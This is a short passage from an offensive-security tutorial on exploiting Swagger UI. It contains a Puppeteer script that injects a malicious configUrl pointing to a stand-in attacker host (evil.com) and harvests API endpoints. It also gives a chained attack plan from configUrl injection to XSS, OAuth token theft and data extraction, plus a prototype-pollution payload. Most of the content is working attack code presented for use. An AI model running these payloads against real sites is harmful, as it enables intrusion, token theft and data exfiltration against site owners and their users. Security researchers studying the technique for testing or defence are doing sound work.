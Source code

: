 ## 🔮 ADVANCED TACTICS: BEYOND THE BASICS

### 1. Browser Automation for Scale

Use tools like Puppeteer to automate Swagger UI exploitation:

```javascript
const puppeteer = require('puppeteer');

async function exploitSwaggerUI(target) {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  
  // Set up data capture
  page.on('console', msg => console.log('PAGE LOG:', msg.text()));
  
  // Intercept and log API requests
  await page.setRequestInterception(true);
  page.on('request', request => {
    console.log(`${request.method()} ${request.url()}`);
    request.continue();
  });
  
  // Target the Swagger UI with malicious config
  await page.goto(`${target}/swagger-ui/?configUrl=https://evil.com/payload.json`);
  
  // Extract API endpoints
  const endpoints = await page.evaluate(() => {
    return Array.from(document.querySelectorAll('.opblock-summary-path'))
      .map(el => el.textContent.trim());
  });
  
  console.log('Discovered endpoints:', endpoints);
  await browser.close();
}

exploitSwaggerUI('https://target.com');
```

### 2. Chaining Vulnerabilities

Combine multiple vulnerabilities for greater impact:

1. Use configUrl injection to deliver XSS payload
2. Use XSS to hook into OAuth flow
3. Steal OAuth tokens
4. Use tokens to access protected API endpoints
5. Extract sensitive data

### 3. Prototype Pollution via Swagger UI

```javascript
// Payload to deliver via configUrl
const payload = {
  __proto__: {
    isAdmin: true,
    toString: () => {
      alert(document.domain);
      return '';
    }
  }
};
```
